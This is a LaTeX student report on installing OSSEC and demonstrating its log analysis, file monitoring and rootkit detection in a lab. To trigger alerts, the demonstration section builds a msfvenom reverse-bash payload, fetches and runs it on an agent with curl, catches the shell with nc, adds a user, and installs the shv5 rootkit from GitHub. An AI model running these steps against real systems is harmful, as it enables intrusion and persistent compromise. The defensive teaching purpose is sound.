\documentclass{article}
\usepackage{graphicx,fancyhdr,amsmath,amssymb,amsthm,subfig,url,hyperref,xcolor}
\usepackage[margin=1in]{geometry}

%----------------------- Macros and Definitions --------------------------

%%% FILL THIS OUT
% \newcommand{\studentname}{Abdus Samee}
\newcommand{\suid}{1805009 \& 1805021}
\definecolor{customGreen}{RGB}{26, 93, 26}
% \newcommand{\exerciseset}{Chapter 1}
%%% END



\renewcommand{\theenumi}{\bf \Alph{enumi}}

%\theoremstyle{plain}
%\newtheorem{theorem}{Theorem}
%\newtheorem{lemma}[theorem]{Lemma}

\fancypagestyle{plain}{}
\pagestyle{fancy}
\fancyhf{}
\fancyhead[RO,LE]{\sffamily\bfseries\large Computer Security}
\fancyhead[LO,RE]{\sffamily\bfseries\large CSE 406}
\fancyfoot[LO,RE]{\sffamily\bfseries\large \suid }
\fancyfoot[RO,LE]{\sffamily\bfseries\thepage}
\renewcommand{\headrulewidth}{1pt}
\renewcommand{\footrulewidth}{1pt}

\graphicspath{{figures/}}

%-------------------------------- Title ----------------------------------

\title{%
  \begin{center}
        \vspace*{1cm}
                    
        \vspace{3cm}
        \LARGE
        CSE406 Project Report
            
        \vspace{1.5cm}
            
        \textbf{OSSEC}
                        
        \vspace{0.8cm}
                        
        \Large
        MD. Zarzees Uddin Shah - 1805009\\
        Abdus Samee - 1805021\\
    \end{center}
  } 

\date{}

%--------------------------------- Text ----------------------------------

\begin{document}
\maketitle
\newpage
\section{Overview}
OSSEC is an Open Source Host based Intrusion Detection System. It performs log analysis, integrity checking, Windows registry monitoring, rootkit detection, real-time alerting and active response. It runs on most operating systems, including Linux, OpenBSD, FreeBSD, Mac OS X, Solaris and Windows. 
\subsection{Key Benefits}
\subsubsection{Compliance Requirements}
OSSEC helps customers meet specific compliance requirements such as PCI and HIPAA. It lets customers detect and alert on unauthorized file system modifications and malicious behavior embedded in the log files of commercial products as well as custom applications. For PCI, it covers the sections of file integrity monitoring  log inspection and monitoring  and policy enforcement/checking.
\subsubsection{Multi platform}
OSSEC lets customers implement a comprehensive host based intrusion detection system with fine grained application/server specific policies across multiple platforms such as Linux, Solaris, Windows, and Mac OS X.
\subsubsection{Real-time and Configurable Alerts}
OSSEC lets customers configure incidents they want to be alerted on, and lets them focus on raising the priority of critical incidents over the regular noise on any system. Integration with smtp, sms, and syslog allows customers to be on top of alerts by sending them to e-mail enabled devices. Active response options to block an attack immediately are also available.
\subsubsection{Integration with current infrastructure}
OSSEC will integrate with current investments from customers such as SIM/SEM (Security Incident Management/Security Events Management) products for centralized reporting and correlation of events.
\subsubsection{Centralized management}
OSSEC provides a simplified centralized management server to manage policies across multiple operating systems. Additionally, it also lets customers define server specific overrides for finer grained policies.
\subsubsection{Agent and agentless monitoring}
OSSEC offers the flexibility of agent based and agentless monitoring of systems and networking components such as routers and firewalls. Agentless monitoring lets customers who have restrictions on software being installed on systems (such as FDA approved systems or appliances) meet security and compliance needs.
\subsection{Key Features}
\subsubsection{File Integrity checking}
There is one thing in common to any attack to your networks and computers: they change your systems in some way. The goal of file integrity checking (or FIM - file integrity monitoring) is to detect these changes and alert you when they happen. It can be an attack, or a misuse by an employee or even a typo by an admin, any file, directory or registry change will be alerted to you.
\subsubsection{Log Monitoring}
Your operating system wants to speak to you, but do you know how to listen? Every operating system, application, and device on your network generate logs (events) to let you know what is happening. OSSEC collects, analyzes and correlates these logs to let you know if something suspicious is happening (attack, misuse, errors, etc). Do you want to know when an application is installed on your client box? Or when someone changes a rule in your firewall? By monitoring your logs, OSSEC will notify you.
\subsubsection{Rootkit detection}
Criminal hackers want to hide their actions, but using rootkit detection you can be notified when the system is modified in a way common to rootkits.
\subsubsection{Active response}
Active response allows OSSEC to take immediate action when specified alerts are triggered. This may prevent an incident from spreading before an administrator can take action.
\subsection{OSSEC Architecture}
Figure ~\ref{fig: OSSEC Architecture} shows the central manager receiving events from the agents and system logs from remote devices. When something is detected, active responses can be executed and the admin is notified.
\begin{figure}
    \centering
    
\includegraphics[width=0.8\textwidth]{ossec-arch.jpg}
    \caption{OSSEC Architecture}
    \label{fig: OSSEC Architecture}
\end{figure}
\section {Installation}
\subsection{OSSEC server}
\subsubsection{Update your Ubuntu system}\label{subsubsec:2.1.1}
\begin{verbatim}
$ sudo apt update
$ sudo apt upgrade -y
\end{verbatim}
\subsubsection{Install Setup dependencies}\label{subsubsec:2.1.2}
\begin{verbatim}
$ sudo apt install build-essential gcc make unzip sendmail inotify-tools expect libevent-dev libpcre2-dev libz-dev libssl-dev -y
$ sudo apt-get install libsystemd-dev
\end{verbatim}
\subsubsection{Download Latest OSSEC HIDS}\label{subsubsec:2.1.3}
\begin{verbatim}
$ VERSION=$(curl -s https://api.github.com/repos/ossec/ossec-hids/releases/latest  | grep tag_name | cut -d '"' -f 4)
$ wget https://github.com/ossec/ossec-hids/archive/$VERSION.tar.gz
\end{verbatim}
\subsubsection{Install OSSEC HIDS on Ubuntu}
\begin{verbatim}
$ tar xvf $VERSION.tar.gz
$ cd ossec-hids-${VERSION}
$ sudo sh install.sh
(en/br/cn/de/el/es/fr/hu/it/jp/nl/pl/ru/sr/tr) [en]: en
You are about to start the installation process of the OSSEC HIDS.
 You must have a C compiler pre-installed in your system.

  - System: Linux hakimmail.novum.co.ke 4.15.0-151-generic
  - User: root
  - Host: ossec_server

  -- Press ENTER to continue or Ctrl-C to abort. --
  1- What kind of installation do you want (server, agent, local, hybrid or help)? server
  - Server installation chosen. server
  - Choose where to install the OSSEC HIDS [/var/ossec]: <Press ENTER>

    - Installation will be made at  /var/ossec .
  3.1- Do you want e-mail notification? (y/n) [y]: n
  3.2- Do you want to run the integrity check daemon? (y/n) [y]: y

   - Running syscheck (integrity check daemon).

  3.3- Do you want to run the rootkit detection engine? (y/n) [y]: y

   - Running rootcheck (rootkit detection).

  3.4- Active response allows you to execute a specific
       command based on the events received. For example,
       you can block an IP address or disable access for
       a specific user.
       More information at:
       http://www.ossec.net/en/manual.html#active-response

   - Do you want to enable active response? (y/n) [y]: n

     - Active response disabled.

  3.5- Do you want to enable remote syslog (port 514 udp)? (y/n) [y]: y

   - Remote syslog enabled.

  3.6- Setting the configuration to analyze the following logs:
    -- /var/log/auth.log
    -- /var/log/syslog
    -- /var/log/dpkg.log

 - If you want to monitor any other file, just change
   the ossec.conf and add a new localfile entry.
   Any questions about the configuration can be answered
   by visiting us online at http://www.ossec.net .


   --- Press ENTER to continue ---
\end{verbatim}
Give it some time to complete the installation.
\begin{verbatim}
 - System is Debian (Ubuntu or derivative).
 - Init script modified to start OSSEC HIDS during boot.

 - Configuration finished properly.

 - To start OSSEC HIDS:
      /var/ossec/bin/ossec-control start

 - To stop OSSEC HIDS:
      /var/ossec/bin/ossec-control stop

 - The configuration can be viewed or modified at /var/ossec/etc/ossec.conf

    Thanks for using the OSSEC HIDS.
    If you have any question, suggestion or if you find any bug,
    contact us at https://github.com/ossec/ossec-hids or using
    our public maillist at
    https://groups.google.com/forum/#!forum/ossec-list

    More information can be found at http://www.ossec.net

    ---  Press ENTER to finish (maybe more information below). ---

 - In order to connect agent and server, you need to add each agent to the server.
   Run the 'manage_agents' to add or remove them:

   /var/ossec/bin/manage_agents
\end{verbatim}
\subsection{OSSEC Agent}
Now that we have the OSSEC server up and running, let us set up the agent in a different server and add it to the OSSEC server.
\subsubsection{Install OSSEC Agent on Ubuntu}
At this point repeat Step ~\ref{subsubsec:2.1.1} Step ~\ref{subsubsec:2.1.2} and Step ~\ref{subsubsec:2.1.3} exactly the way they are.
\subsubsection{Install OSSEC HIDS Agent}
\begin{verbatim}
$ cd ossec-hids-${VERSION}
$ sudo sh install.sh
(en/br/cn/de/el/es/fr/hu/it/jp/nl/pl/ru/sr/tr) [en]: en
OSSEC HIDS v3.6.0 Installation Script - http://www.ossec.net

 You are about to start the installation process of the OSSEC HIDS.
 You must have a C compiler pre-installed in your system.

  - System: Linux tinc 5.4.0-29-generic
  - User: root
  - Host: ossec_agent

  -- Press ENTER to continue or Ctrl-C to abort. --
 1- What kind of installation do you want (server, agent, local, hybrid or help)? agent
 2- Setting up the installation environment.

 - Choose where to install the OSSEC HIDS [/var/ossec]: PRESS ENTER

    - Installation will be made at  /var/ossec .

Add OSSEC server to connect to

3- Configuring the OSSEC HIDS.

  3.1- What's the IP Address or hostname of the OSSEC HIDS server?: 10.0.0.4

   - Adding Server IP 10.0.0.4

Run integrity daemon. 

 3.2- Do you want to run the integrity check daemon? (y/n) [y]: y

   - Running syscheck (integrity check daemon).

Enable rootkit detection engine. 
 3.3- Do you want to run the rootkit detection engine? (y/n) [y]: y

   - Running rootcheck (rootkit detection).

Disable active responses. 
 3.4 - Do you want to enable active response? (y/n) [y]: n

   - Active response disabled.


You will be lead to screen of this kind. 

 3.5- Setting the configuration to analyze the following logs:
    -- /var/log/auth.log
    -- /var/log/syslog
    -- /var/log/dpkg.log
    -- /var/log/nginx/access.log (apache log)
    -- /var/log/nginx/error.log (apache log)

 - If you want to monitor any other file, just change
   the ossec.conf and add a new localfile entry.
   Any questions about the configuration can be answered
   by visiting us online at http://www.ossec.net .


   --- Press ENTER to continue ---
- System is Debian (Ubuntu or derivative).
 - Init script modified to start OSSEC HIDS during boot.

 - Configuration finished properly.

 - To start OSSEC HIDS:
      /var/ossec/bin/ossec-control start

 - To stop OSSEC HIDS:
      /var/ossec/bin/ossec-control stop

 - The configuration can be viewed or modified at /var/ossec/etc/ossec.conf

    Thanks for using the OSSEC HIDS.
    If you have any question, suggestion or if you find any bug,
    contact us at https://github.com/ossec/ossec-hids or using
    our public maillist at
    https://groups.google.com/forum/#!forum/ossec-list

    More information can be found at http://www.ossec.net

    ---  Press ENTER to finish (maybe more information below). ---
\end{verbatim}
\subsection{Add OSSEC Agent on OSSEC Server}
Now that we have OSSEC Server and Agent running, we are going to add Agent to the server for it to be sending logs of events to sever. Before adding agent, make sure that you allow port 1514 in UDP protocol to allow communication between server and agent.
\begin{verbatim}
$ sudo ufw allow 1514/udp
$ sudo ufw reload
\end{verbatim}
\begin{verbatim}
$ sudo /var/ossec/bin/manage_agents
****************************************
* OSSEC HIDS v3.6.0 Agent manager.     *
* The following options are available: *
****************************************
   (A)dd an agent (A).
   (E)xtract key for an agent (E).
   (L)ist already added agents (L).
   (R)emove an agent (R).
   (Q)uit.
Choose your action: A,E,L,R or Q: A
 Adding a new agent (use '\q' to return to the main menu).

  Please provide the following:
   * A name for the new agent: ossec_agent
   * The IP Address of the new agent: 10.0.0.6
   * An ID for the new agent[001]:<ENTER>

   Agent information:
   ID:001
   Name:ossec_agent
   IP Address: 10.0.0.6

Confirm adding it?(y/n): Y
Agent added with ID 001.

****************************************
* OSSEC HIDS v3.6.0 Agent manager.     *
* The following options are available: *
****************************************
   (A)dd an agent (A).
   (E)xtract key for an agent (E).
   (L)ist already added agents (L).
   (R)emove an agent (R).
   (Q)uit.
Choose your action: A,E,L,R or Q: E

Available agents:
   ID: 001, Name: ossec_agent, IP: 10.0.0.6
Provide the ID of the agent to extract the key (or '\q' to quit): 001

Agent key information for '001' is:
MDA------------------------------------------------------------------------------------2Q5YjU1MQ==

** Press ENTER to return to the main menu.
****************************************
* OSSEC HIDS v3.6.0 Agent manager.     *
* The following options are available: *
****************************************
   (A)dd an agent (A).
   (E)xtract key for an agent (E).
   (L)ist already added agents (L).
   (R)emove an agent (R).
   (Q)uit.
Choose your action: A,E,L,R or Q: q

** You must restart OSSEC for your changes to take effect.

manage_agents: Exiting.
manage_agents: Exiting.

$ sudo /var/ossec/bin/ossec-control restart

Killing ossec-monitord ..
Killing ossec-logcollector ..
Killing ossec-remoted ..
Killing ossec-syscheckd ..
Killing ossec-analysisd ..
Killing ossec-maild ..
ossec-execd not running ..
OSSEC HIDS v3.6.0 Stopped
Starting OSSEC HIDS v3.6.0...
Started ossec-maild...
Started ossec-execd...
Started ossec-analysisd...
Started ossec-logcollector...
Started ossec-remoted...
Started ossec-syscheckd...
Started ossec-monitord...
Completed.
\end{verbatim}
\subsubsection{Add Key to OSSEC Agent}
\begin{verbatim}
$ sudo /var/ossec/bin/manage_agents

****************************************
* OSSEC HIDS v3.6.0 Agent manager.     *
* The following options are available: *
****************************************
   (I)mport key from the server (I).
   (Q)uit.
Choose your action: I or Q: I
\end{verbatim}
Paste the key you extracted from OSSEC server.
\begin{verbatim}
    * Provide the Key generated by the server.
* The best approach is to cut and paste it.
*** OBS: Do not include spaces or new lines.

Paste it here (or '\q' to quit): MDAxIE==================================================================================5YjU1MQ==

Agent information:
   ID:001
   Name:ossec_agent
   IP Address:10.0.0.6

Confirm adding it?(y/n): y
2023/09/04 19:28:16 manage_agents: ERROR: Cannot unlink /queue/rids/sender: No such file or directory
Added.
** Press ENTER to return to the main menu.

***************************************
* OSSEC HIDS v3.6.0 Agent manager.     *
* The following options are available: *
****************************************
   (I)mport key from the server (I).
   (Q)uit.
Choose your action: I or Q: q

** You must restart OSSEC for your changes to take effect.

manage_agents: Exiting.
manage_agents: Exiting.

$ sudo /var/ossec/bin/ossec-control start

Killing ossec-logcollector ..
Killing ossec-syscheckd ..
Killing ossec-agentd ..
ossec-execd not running ..
OSSEC HIDS v3.6.0 Stopped
Starting OSSEC HIDS v3.6.0...
Started ossec-execd...
2023/09/06 21:45:19 ossec-agentd: INFO: Using notify time: 600 and max time to reconnect: 1800
2023/09/06 21:45:19 going daemon
Started ossec-agentd...
Started ossec-logcollector...
Started ossec-syscheckd...
Completed.


\end{verbatim}
\subsection{Test and Check Connection}
    To check and confirm if OSSEC Agent connected and communicating with the OSSEC server simply check OSSEC logs on the Agent host.
\begin{verbatim}


$ tail -f /var/ossec/logs/ossec.log
2023/09/04 19:30:24 ossec-agentd: INFO: Trying to connect to server 10.0.0.4, port 1514.
2023/09/04 19:30:24 INFO: Connected to 10.0.0.4 at address 10.0.0.4, port 1514
2023/09/04 19:30:24 o sec-agentd: DEBUG: agt->sock: 14
\end{verbatim}
On the OSSEC server, check if the Agent is recognized and listed as Active.
\begin{verbatim}
    $ sudo /var/ossec/bin/agent_control -lc

OSSEC HIDS agent_control. List of available agents:
   ID: 000, Name: ossec_server (server), IP: 127.0.0.1, Active/Local
   ID: 001, Name: ossec_agent, IP: 10.0.0.6, Active
\end{verbatim}
\subsection{Installing OSSEC Web Interface}
For proper visualization and monitoring track of events, OSSEC has a suitable web interface that provides an awesome view of events.

\subsubsection{Install Apache web-server}
\begin{verbatim}
$ sudo apt update
$ sudo apt install apache2 -y
\end{verbatim}
\begin{verbatim}
$ git clone https://github.com/ossec/ossec-wui.git
$ sudo mv  ossec-wui /srv
$ cd /srv/ossec-wui
$ sudo ./setup.sh
\end{verbatim}
From the below screen, you will be prompted to enter your username and password. These are the credentials you will need to login to your web interface. Choose web server user www-data.

\begin{verbatim}
trap: SIGHUP: bad trap
Setting up ossec ui...

Username: admin
New password: ossec_password
Re-type new password: ossec_password
Adding password for user admin
Enter your web server user name (e.g. apache, www, nobody, www-data, ...)
www-data

Setup completed successfully.
\end{verbatim}

Create Apache VirtualHost configuration file for OSSEC Server. Replace ossecsample.com with your domain
\begin{verbatim}
$ sudo vim /etc/apache2/sites-available/ossec-wui.conf
<VirtualHost *:80>
     DocumentRoot /srv/ossec-wui/
     ServerName ossec.example.com
     ServerAlias ossecsample.com
     ServerAdmin admin@ossecsample.com

     <Directory /srv/ossec-wui/>
        Options +FollowSymlinks
        AllowOverride All
        Require all granted
     </Directory>

     ErrorLog /var/log/apache2/moodle-error.log
     CustomLog /var/log/apache2/moodle-access.log combined
</VirtualHost>
\end{verbatim}

Create a symbolic link to /etc/apache2/sites-enabled.

\begin{verbatim}
$ sudo a2dissite 00-default.conf
$ sudo a2ensite ossec-wui.conf
\end{verbatim}
Restart and enable the Apache web server.

\begin{verbatim}
$ sudo systemctl restart apache2
$ sudo systemctl enable apache2
\end{verbatim}
Check the status of apache2 service to confirm it is running:

\begin{verbatim}
 $ systemctl status apache2 
 . apache2.service - The Apache HTTP Server
     Loaded: loaded (/lib/systemd/system/apache2.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2021-10-04 23:23:21 EAT; 3 days ago
       Docs: https://httpd.apache.org/docs/2.4/
   Main PID: 193825 (apache2)
      Tasks: 11 (limit: 2269)
     Memory: 38.1M
     CGroup: /system.slice/apache2.service
             |-- 193825 /usr/sbin/apache2 -k start
             |-- 1282512 /usr/sbin/apache2 -k start
             |-- 1282513 /usr/sbin/apache2 -k start   
\end{verbatim}

Now visit your domain/ServerIP on your web browser to access the OSSEC interface.
Use the username and password you set during the installation of the web interface to log in.
The diagram below is showcasing activity logs within the server. They are being sent by agents from both OSSEC server and OSSEC agent host.

\begin{figure}
\centering
    
\includegraphics{Screenshot 2023-09-13 192918.png}
\end{figure}
% \vspace{1cm}

\section{Feature Demonstration}

\subsection{Log Analysis}
\subsubsection{Open Ubuntu Server}
The following steps have been taken while opening the Azure Cloud Ubuntu seed VM:
\begin{itemize}
    \item ssh into the Azure VM using the provided key
    \item Type: \textcolor{blue}{\texttt{\$ sudo su seed}}
    \item Open vncserver: \textcolor{blue}{\texttt{seed\$ vncserver -localhost no}} and connect using TigerVNC or RealVNC
    \begin{figure}[hbt!]
        \centering
        
\includegraphics[scale=0.4]{img-vncerver.PNG}
    \end{figure}
\end{itemize}
\subsubsection{Open Ubuntu Client}
ssh into the client VM similarly like server, but not vncserver connection is mandatory, it is optional
\subsubsection{Open Kali VM Attacker}
\begin{itemize}
    \item ssh into the Kali VM using the provided key
    \item Create a folder:
    {
    \color{blue}%
    \begin{verbatim}
        ~$ mkdir payload
        ~$ cd payload
    \end{verbatim}
    }
    \item Create the malicious payload which will enable any client to connect to attacker via port 6666:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ msfvenom -p cmd/unix/reverse_bash lhost=10.0.0.6 lport=6666 R > payload.out
    \end{verbatim}
    }
    \item Then start a python server at the payload folder:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ sudo python3 -m http.server 80
    \end{verbatim}
    }
    \item In another tab, initiate an \textbf{nc} connection:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ nc -vlp 6666
    \end{verbatim}
    }
\end{itemize}

\subsubsection{Download Payload into Agent}
\begin{itemize}
    \item Execute the following:
    {
    \color{blue}%
    \begin{verbatim}
        ~/payload$ curl http://10.0.0.6/payload.out -o payload.out
        ~/payload$ chmod +x payload.out
        ~/payload$ ./payload.out
    \end{verbatim}
    }
    This will connect the client to the Kali VM and the VM will get the shell access of the client
\end{itemize}

\subsubsection{Manipulate client}
\begin{itemize}
    \item Stylize the accessed shell: \texttt{client\$ python3 -c 'import pty; pty.spawn("/bin/bash")'}
    \item If the command \texttt{client\$ whoami } is executed then we can see the hostname of the client in Kali VM
    \item 
    {
    \color{blue}%
    \begin{verbatim}
        client$ groups client
        client$ sudo useradd -m -g <group> <new_username>
        client$ sudo su <new_username>
    \end{verbatim}
    }
    The above commands will create a new user with a role present to the original client. Then, when the server web-ui is visited, we shall see the logs of a new user created and logged in.
    \begin{figure}[hbt!]
        \centering
        
\includegraphics[scale=0.4]{img-useradd.PNG}
    \end{figure}
    \begin{figure}[hbt!]
        \centering
        
\includegraphics[scale=0.4]{img-userlogin.PNG}
    \end{figure}
\end{itemize}
\vspace{1cm}

\subsection{File Monitoring/Syscheck}
\subsubsection{Enable Alert for New File Creation}
\begin{itemize}
    \item By default, OSSEC does not alert on new files. So, we need to enable \textit{<alert\_new\_files> } in the server's \textbf{ossec.conf } file, under the \textit{<syscheck> } section. Also, reduce the \textit{frequency}. Remember to keep the level above 0. By default, the \textit{/etc, /usr/bin, /usr/sbin } folders will be monitored.
    {
    \color{customGreen}%
    \begin{verbatim}
        <syscheck>
          <frequency>100</frequency>
          <alert_new_files>yes</alert_new_files>
          <directories check_all="yes">/etc,/usr/bin,/usr/sbin</directories>
        </syscheck>
    \end{verbatim}
    }
    \item Inside the server's \textbf{local\_rules.xml } file, execute the following to enable syslog for a new file creation:
    {
    \color{customGreen}%
    \begin{verbatim}
        <rule id="554" level="10" overwrite="yes">
          <category>ossec</category>
          <decoded_as>syscheck_new_entry</decoded_as>
          <description>File added to the system.</description>
          <group>syscheck,</group>
        </rule>
    \end{verbatim}
    }
    \item The location of the files are \textit{/var/ossec/etc/ossec.conf } and \textit{/var/ossec/rules/local\_rules.xml}
\end{itemize}

\subsubsection{Create and Modify File in Monitored Directory}
\begin{itemize}
    \item We go to one of the monitored folders \textbf{/etc } and do the following:
    {
    \color{orange}%
    \begin{verbatim}
        ~$ cd /etc
        ~/etc$ touch test.txt
        ~/etc$ nano test.txt
    \end{verbatim}
    }
    \item Then add contents to the file and save it
    \item We will get two separate alerts: a \textbf{level 10} alert for creating a file and a \textbf{level 7} alert for modifying the file. Then we can see the modified file's name in the \textit{"Latest Modified Files" } section of the server's web-ui.
    \begin{figure}[hbt!]
        \centering
        
\includegraphics{img-fileAdd.PNG}
    \end{figure}
    \begin{figure}[hbt!]
        \centering
        
\includegraphics{img-checksum.PNG}
    \end{figure}
    \begin{figure}[hbt!]
        \centering
        
\includegraphics{img-latest.PNG}
    \end{figure}
\end{itemize}
This way we can monitor file changes in a monitored directory using OSSEC.

\vspace{1cm}

\subsection{Rootkit Detection}
\subsubsection{Open Ubuntu Server}
\begin{verbatim}
$ sudo ./bin/agent_control -lc
\end{verbatim}
get agent id from the list
\begin{verbatim}
$ sudo tail -f logs/alerts/alerts.log
\end{verbatim}
Keep the previous command running (don’t Ctrl+C)
\subsubsection{Open Ubuntu Agent}

\begin{verbatim}
$ git clone https://github.com/CCrashBandicot/shv5.git
$ cd shv5
$ ls
$ sudo chmod 777 setup
$ ./setup
\end{verbatim}

Now ls command will not work in agent
\begin{verbatim}
$ ossec_agent@OssecAgent:~/shv5$ ls
-bash: /usr/bin/ls: No such file or directory
$ ossec_agent@OssecAgent:~/shv5$ ls
-bash: /usr/bin/ls: No such file or directory
\end{verbatim}

\subsubsection{Refresh Server}
open a new tab in terminal
\begin{verbatim}
$ sudo ./bin/agent_control -r -u <agent_no>
\end{verbatim}
go back to the unstopped tab of terminal running the `tail` command and see rootkit detected
\begin{figure}[hbt!]
    \centering
    
\includegraphics{Screenshot 2023-09-13 201539.png}
\end{figure}
\section{Special Notes}
\begin{itemize}
    \item All the experiments were done using Azure VM, but you can use any VM or Docker or separate machine. Know the necessary commands to connect to them.
    \item OSSEC server and agent both have to be connected on the same LAN.
    \item OSSEC is an old tool. So some notifications or alerts may take time. Be patient.
    \item Sometimes problems occur when uninstall and reinstalling OSSEC. (Most of the time could not find the agent). Better solution is completely uninstall it from server and agent both.
    \item It may happen problem will occur even though you followed all the rules. Please restart/reinstall/reset and try again.
    \item In the worst case you may have to create a completely new VM and start over again.
\end{itemize}




















% \include{texFile}

\end{document}
